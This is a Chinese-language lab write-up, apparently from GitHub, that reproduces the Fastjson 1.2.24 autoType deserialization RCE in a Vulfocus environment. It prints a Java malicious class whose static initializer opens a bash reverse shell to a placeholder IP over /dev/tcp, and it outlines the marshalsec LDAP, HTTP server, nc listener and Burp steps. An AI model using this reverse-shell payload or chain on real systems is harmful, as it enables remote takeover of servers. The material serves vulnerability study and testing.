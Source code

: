# Fastjson-1.2.24反序列化导致任意命令执行漏洞 by [fengyehack](https://github.com/fengyehack) 

## 一、漏洞描述

FastJson库是Java的一个Json库，其作用是将Java对象转换成json数据来表示，也可以将json数据转换成Java对象，使用非常方便，号称是执行速度最快的库。

在1.2.24版本的Fastjson出现了一个反序列化的漏洞，fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

## 二、漏洞影响版本

fastjson <= 1.2.24

## 三、漏洞复现

启动Vulfocus靶场的fastjson1.2.24-rce

![](./1.png)



修改java恶意类代码

```java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
   static {
       try {
          Runtime r = Runtime.getRuntime();
          Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/IP/1888 0>&1"});
          p.waitFor();
       } catch (Exception e) {
           // do nothing
       }
   }
}
```



![](./2.png)



编译恶意类代码 javac TouchFile.java 生成 TouchFile.class

![](./3.png)

上传编译好的恶意类到服务器

![](./4.png)

然后使用 python -m SimpleHTTPServer 快速搭建http服务

![](./5.png)

使用marshalsec开启ldap服务

![](./6.png)

nc监听

![](./7.png)

访问fastjson页面，使用Burp抓包，改为POST请求，使用exp反弹shell

![](./8.png)

可以看到请求成功，加载了恶意类

![](./9.png)

![](./10.png)

成功拿到shell

![](./11.png)

